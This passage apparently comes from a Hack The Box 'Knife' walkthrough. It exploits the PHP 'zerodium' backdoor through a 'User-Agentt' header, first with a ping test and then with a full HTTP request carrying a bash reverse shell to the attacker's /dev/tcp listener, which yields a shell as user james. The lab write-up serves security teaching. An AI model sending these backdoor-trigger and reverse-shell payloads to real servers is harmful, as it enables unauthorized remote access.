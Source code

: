 It is possible to verify the backdoor by trying to ping back our machine using `User-Agentt: zerodium system('ping -c1 10.10.14.17');`:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system('ping -c1 10.10.14.17'); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

and thus obtaining a ping back:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:01:03.012545 IP knife.htb > 10.10.14.17: ICMP echo request, id 1, seq 1, length 64
18:01:03.012577 IP 10.10.14.17 > knife.htb: ICMP echo reply, id 1, seq 1, length 64
```

At this point it is possible to execute a classic reverse shell payload and obtain a low level access to the machine:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/10099 0>&1'"); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.242] 60114
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ hostname && ifconfig
hostname && ifconfig
knife
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2717765  bytes 412004448 (412.0 MB)
        RX errors 0  dropped 47  overruns 0  frame 0
        TX packets 2505289  bytes 1104331428 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
```